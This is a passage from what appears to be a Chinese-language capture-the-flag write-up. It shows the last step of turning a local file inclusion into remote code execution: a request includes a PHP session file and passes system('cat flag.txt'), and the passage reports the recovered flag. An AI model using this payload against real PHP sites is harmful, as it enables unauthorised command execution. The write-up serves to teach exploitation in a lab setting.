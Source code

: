 ![](assets/1-15.png)
成功執行 ls 指令，看到 flag 檔案的位置了\
最後只需要執行 ```cat flag.txt``` 指令即可，連到

```php
/?page=/tmp/sess_dd754bb0c668055772fb34d6829a3c76&test=system('cat flag.txt');
```
![](assets/1-16.png)
成功得出 flag 為 ```FLAG{LFI_t0_rC3_1s_e4Sy!}```
